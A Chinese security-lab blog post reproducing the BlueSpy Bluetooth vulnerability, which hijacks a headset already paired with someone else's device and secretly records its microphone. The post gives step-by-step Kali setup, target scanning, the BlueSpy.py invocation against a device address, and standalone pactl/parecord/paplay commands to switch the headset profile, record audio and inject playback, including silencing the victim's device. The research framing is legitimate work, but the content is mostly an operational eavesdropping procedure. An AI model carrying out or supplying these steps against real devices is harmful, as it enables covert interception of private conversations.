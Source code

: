 #  监听蓝牙对话的BlueSpy技术复现   
原创 马云卓  洞源实验室   2024-06-28 20:02  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDbWH4KMkn83WCzS9JzYXib8TaoECggiapKaUHAKNLc2pT0Nb8p4bEjI9w/640?wx_fmt=gif "")  
  
本文是之前文章的BlueSpy技术的复现过程：https://mp.weixin.qq.com/s/iCeImLLPAwwKH1avLmqEpA  
  
  
2个月前，网络安全和情报公司Tarlogic在西班牙安全大会RootedCon 2024上提出了一项利用蓝牙漏洞的BlueSpy技术，并在之后发布了一个名为BlueSpy的概念验证工具。  
  
  
这个蓝牙安全漏洞能够允许攻击者在蓝牙扬声器（比如耳机）已经与另一个设备配对并连接的情况下，劫持或监听蓝牙扬声器的输出内容，这也意味着，如果攻击目标是蓝牙耳机，那么可以通过这个漏洞进行目标用户蓝牙耳机通话的劫持，即偷听目标对象的通话内容。  
  
  
同时Tarlogic也发布了BlueSpy 的PoC项目https://github.com/TarlogicSecurity/BlueSpy，该项目可以验证此漏洞的概念。  
  
  
**环境准备**  
  
  
**Python 3.11.8**  
  
**PoC 使用以下工具：**  
  
**▪️**bluetoothctl  
  
**▪️**btmgmt  
  
**▪️**pactl  
  
**▪️**parecord  
  
**▪️**paplay  
  
  
测试设备使用Kali虚拟机+蓝牙适配器或者原生Kali系统均可复现。其中，使用虚拟机时需要注意关闭USB控制器的与虚拟机共享蓝牙设备，这个蓝牙设备虽然会显示在蓝牙适配器列表，但是并不能使用，直接使用连接到虚拟机的外置蓝牙适配器即可。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDEpicXoBqcKzKibrHTMXY1vskmNP9VJvia5yOEuj8RxEUR1I1POxhStl9Q/640?wx_fmt=png "")  
  
  
**测试准备**  
  
  
在BlueSpy脚本执行时非常容易出现错误，比如：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDOLSG5ImjTHPYnIKkGcTjKD9ZaN48TRJiaBnpGx8PaRK3fUaFA2wh1Uw/640?wx_fmt=png "")  
  
  
这时可以使用sudo btmgmt pair -c 3 -t 0命令直接运行btmgmt进行测试，并根据给出的提示解决报错。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDAiaIticdqaQaVCzPEQDibruzDoa1y1eO1Rxia9zfhCT9vmBv9oO5rnILEA/640?wx_fmt=png "")  
  
  
确保btmgmt可以正常运行之后，再通过hciconfig命令来检查蓝牙适配器的信息。  
  
  
hciconfig命令可以查看蓝牙适配器信息，和ifconfig命令可以查看网络适配器一样，遇到适配器DOWN的状态，可以使用hciconfig hci0 up来启动。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDibVblWXNG5WEXdrCJPVF2cyjaODKDsk2bBertX9icxWNibKaibmcF2v0sQ/640?wx_fmt=png "")  
  
  
另外，sudo systemctl start bluetooth命令用于启动蓝牙服务。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDliaTOBCa8ulfUZQ3GIKjAgTXsEvhsZRYjGRiaxBXu6x94q88oP4UicxXQ/640?wx_fmt=png "")  
  
  
sudo rfkill list命令可以用来检查蓝牙设备是否禁用。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDxId9fPyoJmGvicAZEq5stZGJupdhepUnbKDhd7V2ic7GibJ8iaH5Z6gicrA/640?wx_fmt=png "")  
  
  
如果蓝牙已被禁用，可以使用以下命令解除禁用：  
sudo rfkill unblock blue  
tooth  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaD7k58t15G49pTxCCygTfdkgUicfJpDqNkjNd8X3qXU9AL8eUbwafZmSw/640?wx_fmt=png "")  
  
**测试场景**  
  
  
确保btmgmt可以正常运行后，通过bluetoothctl工具扫描周边的蓝牙设备，在工具启动后执行scan on命令来开启扫描，获取蓝牙的地址，这里以网易的云音乐蓝牙耳机为例。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDia2n0m66WytKJYia9MribE2Anm8iaArIJuuTDMlmCtHO31o0QtVO9DLrUw/640?wx_fmt=png "")  
  
  
倘若此时周边有其他人已经连接该蓝牙耳机听音乐（这里以耳机连接Windows系统为例）。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDmuqme6CYjXxQcbL0EAtAgIQkHwV0hmibYbpA1uicVicr5VAzj9k79lUCg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaD29vxDfM9gJA2W0QpoSxJAkANk181ibHk8hRfsFD3sMYxicfVDJqfrkBg/640?wx_fmt=png "")  
  
  
  
  
**测试执行**  
  
  
回到Kali系统开始执行BlueSpy程序，示例如下：  
  
$ python BlueSpy.py -a 蓝牙地址（上文示例为F5:0E:FD:00:01:B8）  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDxq1bnE7AFwHT7HVHCrlUrhcUN8dLDVibsaTH5icHuYaOD5yt4S9TiboGw/640?wx_fmt=png "")  
  
  
上图可以看到Kali系统已经连接到正在播放的云音乐蓝牙耳机，并且开启了麦克风开始录音。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDQ9zBTrjUQZRe1tle59MGjwB5zVtt1EHHVzibsXiaBgyiaVKCJh1yddXMg/640?wx_fmt=png "")  
  
  
这时在项目目录下会有一个recording.wav的文件生成，这个文件正是录音的文件，随着录音时间的增加，该文件的大小也会增加。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gEGSydvbZs4MSvOXf03IgVQSAicQ1NAaDHia0bOiczrP6zP8Xc4rZwWLAM3OQC9gxGGLOFSB1t7pAgLkXuBuRuibaQ/640?wx_fmt=png "")  
  
  
 使用Ctrl+C停止录音后，可以选择是否向连接的蓝牙设备播放媒体文件。选择Y的话会播放刚刚录音的文件，不选择的话，设备会恢复之前的状态继续播放音乐。  
  
  
这里也可以用单独的命令进行相同操作：  
  
```
pactl set-card-profile bluez_card.04_FE_A1_40_EB_31 headset-head-unit-msbc 
parecord -d bluez_input.04_FE_A1_40_EB_31.0 recording.wav 
paplay -d bluez_output.04_FE_A1_40_EB_31.1 recording.wav
```  
  
  
使用上述命令可以单独进行录音或者发送指定的音频到目标蓝牙设备播放音乐，假设播放的音乐是空白，则会产生蓝牙耳机或音箱无声的假象。  
  
  
观看相关视频请点击阅读原文。  
  
  
  
  
